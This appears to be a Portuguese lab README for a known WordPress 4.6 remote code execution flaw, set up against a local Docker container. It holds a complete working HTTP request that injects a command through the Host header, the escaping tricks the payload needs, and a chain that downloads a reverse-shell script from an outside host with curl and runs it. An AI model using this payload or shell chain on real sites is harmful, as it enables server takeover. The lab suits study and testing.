 # Wordpress 4.6 Remote Code Execution Vulnerability (PwnScriptum)

## Link de referência

https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html

## Configuração do ambiente

```
docker-compose build
docker-compose up -d
```

Como a inicialização do Mysql precisa de um pouco de tempo, aguarde. Após a inicialização ser bem-sucedida, visite `http://your-ip:8080/`, defina o nome de usuário e a senha do administrador para usá-lo (o banco de dados é configurado e não atualizado automaticamente).

## Explorando

Envie o seguinte pacote e você verá que `/tmp/success` foi criado com sucesso:

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}success}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

Precisamos atender aos seguintes requisitos para explorar essa vulnerabilidade:

1. O comando executado não pode conter alguns caracteres especiais, como `:`, `'`,`"`, etc.
2. O comando será convertido em letras minúsculas
3. O comando precisa usar um caminho absoluto
4. Precisa conhecer um nome de usuário existente

Para resolver esses problemas, o autor da vulnerabilidade criou $`substr{0}{1}{$spool_directory}}`em vez de`/`, usando `${substr{10}{1}{$tod_log} } ` método de substituição de espaços.

No entanto, ainda há muitos caracteres que não podem ser usados. Portanto, precisamos colocar o comando no site de terceiros e baixá-lo para o diretório `/tmp` por `curl -o /tmp/rce example.com/shell.sh`.

Portanto, o processo de expliot é o seguinte:

- Escreva o exp do shell reverso e coloque-o em um site. O exp tem os seguintes requisitos:
  - todas as letras maiúsculas do URL serão convertidas em minúsculas, portanto, o caminho do arquivo não deve conter letras maiúsculas.
  - O acesso a esta página não pode ser redirecionado porque o parâmetro para seguir redirecionamento é `-L` (maiúsculas).
- Junte o comando`/usr/bin/curl -o/tmp/rce example.com/shell.sh`and`/bin/bash /tmp/rce`.
- Converta os espaços e `/` no comando para `${substr{10}{1}{$tod_log}}` e `${substr{0}{1}{$spool_directory}}`.
- Produza o cabeçalho HTTP Host:`target(any -froot@localhost -be ${run{command}} null)`.
- Envie esses dois pacotes em ordem.

Aqui está [exploit.py](exploit.py)，alterar `target` para seu site de destino，alterar `user` para um nome de usuário existente，alterar `shell_url` para seu site de carga útil.

Execute para obter o shell:

![](1.png)
